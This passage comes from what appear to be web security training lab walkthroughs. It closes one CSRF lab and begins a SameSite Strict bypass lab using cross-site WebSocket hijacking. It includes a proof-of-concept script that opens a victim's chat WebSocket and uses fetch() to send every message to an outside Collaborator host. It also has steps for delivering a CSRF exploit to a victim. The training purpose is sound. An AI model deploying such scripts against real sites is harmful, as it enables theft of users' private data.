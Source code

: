     Note that you need to include the submit parameter and URL encode the ampersand delimiter to avoid breaking out of the postId parameter in the initial setup request.

    Test the exploit on yourself and confirm that you have successfully changed your email address.

    Change the email address in your exploit so that it doesn't match your own.

    Deliver the exploit to the victim. After a few seconds, the lab is solved.

## Lab: SameSite Strict bypass via sibling domain


Solution
Study the live chat feature

    In Burp's browser, go to the live chat feature and send a few messages.

    In Burp, go to the Proxy > HTTP history tab and find the WebSocket handshake request. This should be the most recent GET /chat request.

    Notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSWSH if you can bypass any SameSite cookie restrictions.

    In the browser, refresh the live chat page.

    In Burp, go to the Proxy > WebSockets history tab. Notice that when you refresh the page, the browser sends a READY message to the server. This causes the server to respond with the entire chat history.

Confirm the CSWSH vulnerability

    In Burp, go to the Collaborator tab and click Copy to clipboard. A new Collaborator payload is saved to your clipboard.

    In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:
    <script>
        var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
        };
    </script>

    Store and view the exploit yourself

    In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

    Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.

    Go to the Proxy > HTTP history tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent GET /chat request.

    Notice that your session cookie was not sent with the request.
